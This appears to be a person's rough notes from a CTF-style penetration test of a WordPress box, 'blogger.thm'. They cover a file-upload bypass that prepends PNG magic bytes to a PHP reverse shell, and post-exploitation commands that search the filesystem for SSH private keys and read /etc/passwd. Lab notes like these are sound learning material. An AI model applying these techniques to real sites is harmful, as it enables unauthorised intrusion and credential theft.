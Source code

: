   wordpress 4.9.8 2018
    known vulns: no 
      you need to check with `searchsploit wordpress PLUGIN_NAME PLUGIN_VERSION` because even if it's the higher version wordpress, plugins are vuln old-version
  wpscan 
  nmap scan again?

  default user?
    admin root x 
    
inspection in /fonts/blog
  is it not actual server right?


  user : J@M3S

OWASP
  sqli in search box

  file upload
    http:\/\/blogger.thm\/assets\/fonts\/blog\/wp-content\/uploads\/2024\/07\/cat-1721353535.9508.png"
      sed "s/\\//g" : replace all duplications
      http://blogger.thm/assets/fonts/blog/wp-content/uploads/2024/07/cat-1721353535.9508.png

    php possible in burpsuite
      they detect only magic bytes
      because if I change the jpg to php, they allow me to upload
        xxd cat.png
       (head -c 8 cat.png;cat ~/tools/php-reverse-shell.php) > ~/blogger/revshell.php
        get shell


## Exploitation & Initial access 
1. need to find james or vagrant users ssh key 
  how about just grep -i "PRIVATE" ssh key right away?
  grep -ri "*PRIVATE KEY*" / 2>/dev/null
  find / -name "*id_rsa*" 2>/dev/null
  find / -name "*.ssh*" 2>/dev/null
   
2. or priv escalation > root
  yes I think it's already host not in docker.


mysql running locally

and I think it's permitted to use password with local host?
  no

cat /etc/passwd
  James M Brunner,,, = comment about user

cron
  can't write
idk linpeas

/usr/share/doc/openssh-client/examples/sshd_config
  can I change the config of ssh? no but can read
  /etc/ssh/sshd_config : authentication config
  /etc/ssh/ssh_config : idk
  